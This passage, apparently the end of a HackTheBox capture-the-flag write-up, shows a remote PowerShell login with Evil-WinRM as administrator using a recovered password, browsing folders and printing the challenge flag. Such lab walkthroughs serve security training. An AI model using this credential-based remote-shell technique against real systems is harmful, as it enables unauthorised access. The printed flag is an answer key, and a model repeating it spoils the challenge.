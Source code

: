 We got the password! Now we just need to utilize it, since Linux doesn't support PowerShell out of the box, we'll use 'Evil-WinRM'.

```console
┌──(kali㉿kali)-[~/Downloads/Responder]
└─$ evil-winrm -i 10.129.156.117 -u administrator -p badminton

Evil-WinRM shell v3.3

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine                                                                                                                 
Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ..
*Evil-WinRM* PS C:\Users\Administrator> cd ..
*Evil-WinRM* PS C:\Users> ls

    Directory: C:\Users

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----          3/9/2022   5:35 PM                Administrator
d-----          3/9/2022   5:33 PM                mike
d-r---        10/10/2020  12:37 PM                Public

*Evil-WinRM* PS C:\Users> cd mike
*Evil-WinRM* PS C:\Users\mike> ls

    Directory: C:\Users\mike

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----         3/10/2022   4:51 AM                Desktop

*Evil-WinRM* PS C:\Users\mike> cd Desktop
*Evil-WinRM* PS C:\Users\mike\Desktop> ls

    Directory: C:\Users\mike\Desktop

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         3/10/2022   4:50 AM             32 flag.txt

*Evil-WinRM* PS C:\Users\mike\Desktop> cat flag.txt
ea81b7afddd03efaa0945333ed147fac
```

And we got the flag!

**Flag:** `ea81b7afddd03efaa0945333ed147fac`

---
**Tags:** [[HackTheBox]] [[tee]]